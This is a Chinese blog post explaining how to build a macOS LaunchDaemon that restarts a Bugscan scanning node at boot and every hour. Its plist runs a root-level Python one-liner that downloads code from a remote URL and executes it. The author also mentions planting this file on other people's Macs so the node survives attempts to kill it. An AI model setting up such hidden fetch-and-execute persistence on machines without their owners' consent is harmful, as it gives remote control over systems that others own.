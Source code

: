 # Mac OS X 开机启动脚本

### 写在前面

扫描的时候常时间不看有时候节点会掉，每次都去手动构建一次真的很烦，于是考虑用计划任务来自动构建节点。Linux 下关于 corntab 的文章多了去了，这里我记录下 Mac OS X 的计划任务，构建节点只是一个用处而己。用 Mac 的人那么多，真正关心这个的人倒没多少。

Mac OS X内置的一种称为 Launch Daemon/Agent 的机制来实现系统启动时自动执行脚本程序。OS X 从10.4 开始，采用 launchd 进程来管理整个操作系统的服务及进程。传统的 UNIX 会使用 /etc/rc.* 或其他的机制来管理开机时要启动的启动服务，而现在的 OS X 则使用 launchd 来管理，它的启动服务称为 Launch Daemon/Agents, 利用 Launch Daemon/Agent，我们就可以令脚本程序在系统启动的时候在后台运行了。

首先来看下 Launch Daemon 和 Launch Agent 有什么区别

Launch Daemon 和 Launch Agent 是同一种东西在不同应用范围的名称。Launch Daemon 是系统级别的服务，称为 daemon，Launch Agent 是用户级别的服务，称为agent，前者在开机时会加载，后者在用户登录后才会加载。

于是我们就选用 Daemon，至于为什么，其实我最初的想法是在别人的 Mac 上写这个文件的，这样对于一些不懂 Launch 的人来说，使用 kill 杀掉我们的节点之后，还是会启动起来的，好了这个不能说太多。

### 配置开始

  1. 创建 plist 文件

```
sudo vi /Library/LaunchDaemons/bugscan.plist
```


文件内容如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>Label</key>
<string>com.bugscan.net</string>
<key>ProgramArguments</key>
<array>
<string>python</string>
<string>-c</string>
<string>exec(__import__('urllib2').urlopen('https://www.bugscan.net/这里是你自己的用户标识').read())</string>
<string>-m</string>
<string>5</string>
</array>
<key>RunAtLoad</key>
<true/>
<key>StartCalendarInterval</key>
<dict>
<key>Minute</key>
<integer>20</integer>
</dict>
</dict>
</plist>
```


  * Label (必须)
  
    > 该项服务的名称
  * Program
  
    > 指定可执行文件的路径和名称, 如果没有 ProgramArguments 的话, Program 是必选的
  * ProgramArguments (如果没指定 Program, 则必须指定)
  
    > 指定可执行文件路径及其参数，例如上面的配置就相当于在命令行下执行了`python -c "exec(__import__('urllib2').urlopen('https://www.bugscan.net/这里是你自己的用户标识').read())" -m 5`
  * RunAtLoad (可选)
  
    > 标识launchd在加载完该项服务之后立即启动路径指定的可执行文件。默认值为 false,设置为 true 即可实现开机运行脚本文件。
  * StartCalendarInterval (可选)
  
    > 该关键字可以用来设置定时执行可执行程序，可使用 Month, Day, Hour, Minute, Second等子关键字，它可以指定脚本在多少月，天，小时，分钟，秒，星期几等时间上执行，若缺少某个关键字则表示任意该时间点，类似于 Unix 的 Crontab 计划任务的设置方式，比如在该例子中设置为每小时的20分的时候执行该命令。

所有key关键字详细使用说明可以在Mac OS X终端下使用命令 `man launchd.plist` 查询。

1.修改plist文件权限

```
sudo chown root:wheel /Library/LaunchDaemons/bugscan.plist
sudo chmod 644 /Library/LaunchDaemons/bugscan.plist
```


2.生效配置

```
# 载入配置
sudo launchctl load /Library/LaunchDaemons/bugscan.plist
# 卸载配置
sudo launchctl unload /Library/LaunchDaemons/bugscan.plist
# 检查语法是否正确
plutil /Library/LaunchDaemons/bugscan.plist
# 查看服务运行状态
sudo launchctl list
```




